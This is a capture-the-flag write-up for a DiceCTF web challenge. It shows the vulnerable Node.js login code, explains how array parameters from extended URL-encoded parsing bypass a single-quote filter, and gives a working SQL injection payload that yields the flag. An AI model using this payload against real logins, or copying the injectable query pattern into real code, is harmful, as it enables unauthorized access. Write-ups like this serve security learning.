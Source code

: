 # Missing Flavortext [224 solves/111 points]

```
Hmm, it looks like there's no flavortext here. Can you try and find it?

missing-flavortext.dicec.tf
```

We are again given the `index.js` source code of the site:

```javascript
const crypto = require('crypto');
const db = require('better-sqlite3')('db.sqlite3')

// remake the `users` table
db.exec(`DROP TABLE IF EXISTS users;`);
db.exec(`CREATE TABLE users(
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  username TEXT,
  password TEXT
);`);

// add an admin user with a random password
db.exec(`INSERT INTO users (username, password) VALUES (
  'admin',
  '${crypto.randomBytes(16).toString('hex')}'
)`);

const express = require('express');
const bodyParser = require('body-parser');

const app = express();

// parse json and serve static files
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static('static'));

// login route
app.post('/login', (req, res) => {
  if (!req.body.username || !req.body.password) {
    return res.redirect('/');
  }

  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }

  // see if user is in database
  const query = `SELECT id FROM users WHERE
    username = '${req.body.username}' AND
    password = '${req.body.password}'
  `;

  let id;
  try { id = db.prepare(query).get()?.id } catch {
    return res.redirect('/');
  }

  // correct login
  if (id) return res.sendFile('flag.html', { root: __dirname });

  // incorrect login
  return res.redirect('/');
});

app.listen(3000);
```

 Looking at the source code, our objective is to obtain `flag.html` via a correct login. The backend uses an `sqlite` database, so let's try a quick **SQL Injection**!

Unfortunately, nothing happened :sweat:.

In order to investigate and test the code further, I decided to run this code on a local machine, and we immediately see the issue with passing a plain SQLi payload in: 

```javascript
 if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }
```

will cause it to **fail if there are any `'` in the payload**, which means that we are unable to escape the quotes for an SQLi.

Looking around the code, there isn't anything interesting other than `app.use(bodyParser.urlencoded({ extended: true }));`. A quick google search reveals that this exact setting was abused in a `Google CTF 2020 Web Challenge (Pasteurize)` (_that DiceGang also conveniently solved_)

Apparently what this setting allows is for **other types (arrays, objects) to be passed in, instead of merely just a string**.

Looking at some of the [writeups](https://pop-eax.github.io/blog/posts/ctf-writeup/web/xss/2020/08/23/googlectf2020-pasteurize-tech-support-challenge-writeups/), we can see a payload like:

```
username[]=hello&password[]=waddle
```

Will get treated as an **object**, rather than a string. So what does this entails?

```
  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }
```

Testing the code out, it seems like the check above will **always return false, and not check for any `'`'**. Hence, we can simply set our SQLi payloads, and it will work magic with the database!

```bash
username[]=' OR 1=1 OR '&password[]=' OR 1=1 OR ' #Unencoded payload
```

And we are in!

```html
<!doctype html>
<html>

<head>
	<link rel="stylesheet" href="/styles.css">
</head>

<body>
	<div>
		<p>Looks like there was no flavortext here either :(</p>
		<p>Here's your flag?</p>
		<p>dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}</p>
	</div>
</body>

</html>
```

